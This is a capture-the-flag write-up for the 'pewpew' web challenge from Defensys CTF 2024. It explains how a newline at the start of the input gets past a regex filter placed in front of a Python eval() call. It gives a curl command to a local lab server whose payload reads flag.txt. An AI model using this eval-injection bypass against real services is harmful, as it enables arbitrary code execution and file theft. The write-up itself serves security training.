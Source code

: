 ```yaml
---
title: pewpew
published: 2024-08-09
description: 'pewpew writeup from Defensys CTF 2024'
tags: [web, ctf]
category: 'challenge'
image: ../../assets/pewpew/pewpew.webp
draft: false 
lang: ''
---
```



### Code analysis
we see this line here where `user_code` is supplied by the user to an eval function that will execute python code:
`result = eval(user_code)`

but before that there is a strict regex that will stop us from entering any characters in `user_code`:
```python
if re.match(".*[\x20-\x7E]+.*", user_code):
	return jsonify({"output": "PEW PEW you can't use chars"}), 403
```

## Solution
`re.math` if used against multiple lines it will check only the first line so the solution is to simply enter an empty new line and then in the second write our payload

* run the following curl command : 
```bash
curl -X "POST" http://127.0.0.1:1337/pew -d "pew=
open('flag.txt').read()"
```


